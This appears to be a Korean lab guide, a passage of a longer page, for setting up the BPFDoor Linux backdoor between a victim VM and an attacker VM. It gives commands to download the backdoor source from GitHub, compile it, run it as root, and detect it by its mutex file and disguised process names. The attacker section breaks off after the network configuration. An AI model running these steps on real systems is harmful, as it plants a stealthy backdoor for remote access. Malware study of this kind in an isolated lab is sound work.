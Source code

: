     ```shell
    $ sudo cat /etc/netplan/50-cloud-init.yaml
    network:
      version: 2
      ethernets:
        ens33: # Host-only
          dhcp4: false
          addresses: [192.168.100.30/24]
        ens37: # NAT
          dhcp4: true
          addresses: [192.168.195.30/24]
          routes:
            - to: default
              via: 192.168.195.2
    ```

    - NAT 통신을 위한 IP 설정: 192.168.100.30

2. 원본 소스코드 다운로드 및 gcc 컴파일

    ```shell
    curl -o bpfdoor.c https://raw.githubusercontent.com/gwillgues/BPFDoor/main/bpfdoor.c
    ```

    ```shell
    gcc bpfdoor.c -o bpfdoor
    ```

3. root 권한으로 바이너리 파일 실행

    ```shell
    sudo ./bpfdoor
    ```

4. BPFDoor가 실행 중인지 확인
    1. mutex 파일 존재 여부 확인

        ```shell
        ls -l /var/run/haldrund.pid
        ```

    2. 위장한 프로세스명 찾기

        ```shell
        ps aux | grep -E "/sbin/udevd -d|/sbin/mingetty /dev/tty7|/usr/sbin/console-kit-daemon --no-daemon|hald-addon-acpi: listening on acpi kernel interface /proc/acpi/event|dbus-daemon --system|hald-runner|pickup -l -t fifo -u|avahi-daemon: chroot helper|/sbin/auditd -n|/usr/lib/systemd/systemd-journald"
        ```

<br>

**Attacker (ubuntu 24.04.2 LTS)**

1. Victim과 통신할 수 있는 네트워크 설정 (netplan)

    ```shell
    $ sudo cat /etc/netplan/50-cloud-init.yaml
    network:
      version: 2
      ethernets:
        ens33: # Host-only
          dhcp4: false
          addresses: [192.168.100.10/24]
        ens37: # NAT
          dhcp4: true
          addresses: [192.168.195.10/24]
          routes:
            - to: default
              via: 192.168.195.2